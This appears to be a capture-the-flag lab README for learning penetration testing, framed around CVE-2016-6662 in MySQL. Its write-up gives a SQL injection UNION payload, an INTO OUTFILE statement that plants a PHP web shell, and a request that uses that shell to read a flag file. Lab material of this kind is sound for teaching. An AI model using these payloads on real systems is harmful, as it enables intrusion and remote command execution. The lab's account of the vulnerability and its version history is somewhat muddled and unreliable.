 ## About this lab

This lab is dedicated for learning penetration testing skill through *CVE-2016-6662: MySQL Remote Root Code Execution*

### Core logic:
The problem with this CVE lies in the secure_file_priv variable, which was added in MySQL version 5.5.53.
It was supposed to add a layer of security since it restricted the privilege to read or write anywhere, which happened a lot back then.
However, in the early stages of version 5.6 up to version 5.7.6, the default value of secure_file_priv is null, so nothing is changed if the database admin doesn't take extra notice at that point.


### Writeup:
1. The first part of the flag is inside the database, you will get it with this payload: `1 UNION SELECT NULL, flag from flags`
2. The second part of the flag is located at the root folder of the server. You first create a PHP shell code with this:
```
select '<?php $output=shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1;
```
This create a PHP file with cmd parameter that take value from input and parse it to shell_exec() function - a PHP function that executing shell command.
3. With that parameter, you will get: `/shell.php?cmd=cat /flag.txt`.
4. You get the flag.

